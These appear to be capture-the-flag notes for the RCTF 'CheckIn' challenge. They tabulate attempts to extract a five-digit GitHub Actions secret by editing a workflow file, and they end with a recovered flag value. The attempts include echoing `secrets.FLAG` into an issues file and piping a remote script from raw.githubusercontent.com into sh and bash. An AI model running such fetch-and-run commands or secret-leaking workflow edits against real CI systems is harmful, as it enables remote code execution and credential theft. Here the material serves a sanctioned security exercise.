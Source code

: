 # CheckIn

secret.FLAG is like [0-9]{5}

submit flag like RCTF{[0-9]{5}}

if you get secret.FLAG=00000,then submit RCTF{00000}


### 记录

yml文件| 操作 | 结果 | 备注
-------|---------------------------|---------------------------|---------------------------
default| `echo "$user:$issues" >> issues` 			 |issues`:` | - 
add | `echo "flag:$flag" >> issues` | issues`flag:<space>`  | - 
add | `for i in {00000..99999};echo $i`| ![截屏2021-09-16 上午11.32.51.png](https://i.loli.net/2021/09/16/quTz2BdmneDVrLI.png) | 格式错误有空格缩进
add | `echo "secrets:${{ secrets.FLAG }}" >> issues` | build log:`echo "secrets:" >> issues` | unkown.
add | `c=$(for i in {00000..99999};echo "[$i]")&&echo $c >> issues`| build log:<code>command substitution: line 2: syntax error near unexpected token `echo'</code> | unkown.
add | `c=$(for i in {00000..99999};echo -e "[$i]")&&echo "$c" >> issues` | build log:<code>command substitution: line 2: syntax error near unexpected token `echo'</code> | unkown.
add | <code>curl -sL https://raw.githubusercontent.com/Bin4xin/bigger-than-bigger/master/CTF/MISC/count.sh %7C sh</code> | build log:`Process completed with exit code 1.` | ?
add | <code>curl -sL https://raw.githubusercontent.com/Bin4xin/bigger-than-bigger/master/CTF/MISC/count.sh %7C bash</code> | [00000->99999] | no flag.
add | env:`user: "bin4xin" flag: "52079"` | ? | ?